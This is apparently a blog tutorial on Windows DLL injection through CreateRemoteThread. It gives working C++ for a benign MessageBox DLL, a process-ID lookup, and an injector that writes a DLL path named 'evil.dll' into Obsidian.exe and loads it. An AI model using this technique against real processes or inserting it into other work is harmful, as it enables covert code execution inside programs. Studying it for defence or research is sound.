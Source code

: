 ```yaml
---
title: Windows DLL Injection using CreateRemoteThread
layout: post
---
```


# Building the injector
---
When it comes to DLL injection, there are many ways of doing it, such as using the WindowsAPI, or even undocumented [NTAPI](http://undocumented.ntinternals.net/) functions such as `NtCreateThread`.

In this example I will be using C++ to inject our DLL into a process using the `CreateRemoteThread` function.

## Payload
---
Our payload is a simple C++ DLL, which calls the `MessageBox` windows API call, to make a textbox appear when run.

```cpp
#define WIN32_LEAN_AND_MEAN
#include <windows.h>
#include "pch.h"

extern "C" __declspec(dllexport)
DWORD WINAPI MessageBoxThread(LPVOID lpParam) {
    MessageBoxA(NULL, "Test", "hello", NULL);
    return 0;
}

extern "C" __declspec(dllexport)
BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        CreateThread(NULL, NULL, MessageBoxThread, NULL, NULL, NULL);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```


## Retrieving the process id
----

For us to be able to inject our DLL into a process, we need to get the PID (process id) of the process.  
  
The way that this can be done. Is by taking a snapshot of the current processes on the system, comparing the name of the exe file to the one we provide, and returning the pid of the process with the matching executable name.

![pid](https://imgur.com/PM6qzpo.png)

```cpp
int getPID(const char* pName) {

	HANDLE snapshot;
	PROCESSENTRY32 pe;
	int pid = 0;
	BOOL result;

	snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
	if (snapshot == INVALID_HANDLE_VALUE) return 0;

	pe.dwSize = sizeof(pe);
	result = Process32First(snapshot, &pe);

	while (result) {
		if (strcmp(pName, pe.szExeFile) == 0) {
			pid = pe.th32ProcessID;
			break;
		}
		result = Process32Next(snapshot, &pe);
	}
	CloseHandle(snapshot);
	return pid;
}
```

If we entered "Calculator.exe". The `getPID()` function would return `11448` back to the main function.


## Making the CreateRemoteThread()  call
---

![dll](https://rioasmara.files.wordpress.com/2020/09/dll.png)

First of all we need to get the process handle, this can be done with `OpenProcess`. The following code opens an existing local process object, and gives us the `PROCESS_ALL_ACCESS` access right to the process.

```cpp
	char process[] = "Obsidian.exe";
	DWORD pid = getPID(process);
	const char* dll = "C:\\Windows\\Tasks\\evil.dll";
	size_t sz = strlen(dll);

	hProc = OpenProcess(PROCESS_ALL_ACCESS, TRUE, pid);
```

Next, we must obstain the address of the `LoadLibrary` function using the `kernel32.dll` library.

```c++
	HMODULE hModule = GetModuleHandle("kernel32.dll");
	LPVOID lpStart = GetProcAddress(hModule, "LoadLibraryA");
```

Following that, the allocation of a new memory region in the process memory, with the `MEM_COMMIT` and `MEM_REVERSE` allocation types, which allow us to reserve and commit memory pages in the target process.

```cpp
	lpBase = VirtualAllocEx(hProc, NULL, sz, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

After that, write to the processes memory space.

```cpp

WriteProcessMemory(hProc, lpBase, dll, sz, NULL);
```

`hProc` - The handle to the process memory to be modified
`lpBaseAddres` - Pointer to the base address in process
`lpBuffer` - Pointer to the buffer that contains the DLL (C:\\path\\to.dll)
`nSize` - Number of bytes to be written (size of DLL path)

Finally, we create the remote thread which injects the DLL into the targets address space.

```cpp
HANDLE rThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)lpStart, lpBase, 0, NULL);
```

If this succeeds, we can close the handle to the proccess:

```cpp
	if (rThread == NULL) {
		std::cout << "[!] CreateRemoteThread Failed.";
	}
	else {
		std::cout << "[+] CreateRemoteThread Created.";
		CloseHandle(hProc);
	}
```

Upon execution of the injector, we see the CreateRemoteThread() is created and the DLL is executed.

![exec](https://imgur.com/tkH4Y7z.png)

We can also attach x64dbg and see the DLL being loaded and executed.

![debug](https://imgur.com/Tsy8yVy.png)
